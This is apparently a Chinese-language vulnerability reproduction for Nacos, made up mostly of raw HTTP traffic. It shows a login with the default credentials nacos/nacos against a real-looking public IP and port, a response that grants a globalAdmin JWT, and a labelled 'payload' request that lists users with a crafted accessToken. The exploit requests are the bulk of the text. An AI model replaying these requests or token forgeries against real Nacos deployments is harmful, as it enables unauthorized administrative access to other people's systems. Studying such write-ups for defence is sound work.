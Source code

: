 Accept-Encoding: gzip, deflate, br  
  
Content-Type: application/x-www-form-urlencoded  
  
Content-Length: 29  
  
Origin: http://47.83.174.204:8848  
  
Connection: keep-alive  
  
Referer: http://47.83.174.204:8848/nacos/  
  
Priority: u=0  
  
username=nacos&password=nacos  
  
响应包  
  
HTTP/1.1 200   
  
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTc0NTY4MDYxOH0.ZLnKCsDmI768h5_ALTANhnvD0ObfSgetZj8LmUy8TjE  
  
Content-Type: application/json;charset=UTF-8  
  
Date: Sat, 26 Apr 2025 10:16:58 GMT  
  
Keep-Alive: timeout=60  
  
Connection: keep-alive  
  
Content-Length: 181  
  
{"accessToken":"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTc0NTY4MDYxOH0.ZLnKCsDmI768h5_ALTANhnvD0ObfSgetZj8LmUy8TjE","tokenTtl":18000,"globalAdmin":true,"username":"nacos"}  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiabXmFSGiac3aFzTiaW4YcFkOPnAooNLKkqruxwkTkobgiaZibjftB1UVk5w/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
客户端得到此accessToken后会使用此Token再次请求后端服务器，及通过该用户身份登录。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaZSuDQXVwB6SsEPtweJ135Gq1ibofrhkUyufF0AoRibZbIHb2tALxjDpQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
payload  
  
GET /nacos/v1/auth/users?pageNo=1&pageSize=9&accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImlhdCI6MTc0NTgzNTYwOH0.gk9tFDRWDozKj-fsLAXSxnpojBklSaOVPNbUneqTSpw HTTP/1.1  
  
Host:   
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0  
  
Accept: application/json, text/plain, */*  
  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
  
Accept-Encoding: gzip, deflate, br  
  
Origin: http://47.83.174.204:8848  
  
Connection: keep-alive  
  
Referer: http://47.83.174.204:8848/nacos/  
  